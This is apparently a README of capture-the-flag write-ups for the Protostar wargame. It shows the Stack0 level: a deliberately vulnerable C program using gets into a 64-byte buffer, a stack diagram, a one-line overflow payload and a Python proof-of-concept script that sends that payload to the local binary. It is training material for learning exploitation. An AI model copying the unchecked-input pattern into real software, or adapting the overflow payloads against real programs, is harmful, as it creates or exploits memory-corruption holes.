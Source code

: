 # protostar
protostar sploits and solutions 
https://exploit-exercises.com/protostar

NOTE: write ups in progress. Adding python exploit poc's to each excercise for practice!

##Stack0

```C
int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
###Stack looks like:
 ---------------------------------------
| eip | ebp | modified(0) |   buffer    |
 ---------------------------------------
fill buffer with gets 
since buffer = 64 bytes, an input of 65 bytes should overflow and overwrite modified

###winning command:
python -c "print 'a'*64+'1'" | ./stack0

###Python exploit script for this challenge
```Python
from subprocess import Popen, PIPE
################
buffer = 64
fill = "A"*buffer
input=fill+"1"
#################
cproc = Popen("./stack0", stdin=PIPE, stdout=PIPE)
print cproc.communicate(input)[0]
```

---------------------------------------------------------------------------------------------------------------------
##Stack1

